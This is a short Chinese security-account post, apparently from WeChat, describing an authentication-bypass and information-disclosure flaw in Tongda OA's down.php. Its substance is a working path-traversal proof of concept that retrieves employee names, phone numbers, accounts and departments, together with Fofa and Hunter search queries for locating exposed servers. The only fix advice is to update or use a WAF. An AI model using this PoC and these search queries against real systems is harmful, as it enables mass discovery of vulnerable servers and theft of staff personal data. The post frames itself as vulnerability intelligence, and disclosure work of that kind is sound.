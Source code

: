 #  安全情报，X达OA down.php 存在信息泄露漏洞！！！   
原创 Ax  极星信安   2024-04-27 17:46  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载，如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
通达OA（Office Anywhere网络智能办公系统）是中国通达公司的一套协同办公自动化软件，  
存在一个认证绕过漏洞，利用该漏洞下载获取系统内所有员工信息，包括手机号、姓名、账号、部门等敏感信息。  
  
**影响版本**  
```
通达 OA
```  
  
**漏洞情报**  
  
**搜索引擎语法**  
```
Fofa：app="TDXK-通达OA"
Hunter：app.name="通达 OA"
```  
  
**POC**  
```
/inc/package/down.php?id=../../../cache/org
```  
  
**修复建议**  
```
建议及时更新至最新版本或者使用WAF安全设备防护！
```  
  
**关注我们**  
  
  
  
**公众号回复“2024Hw应急工具”获取Hw应急工具集**  
  
**公众号回复“简历模版”获取**  
**Hw简历模版**  
  
******公众号回复“****2024面经大全****”****获取****全套面经以及回答思路**  
  
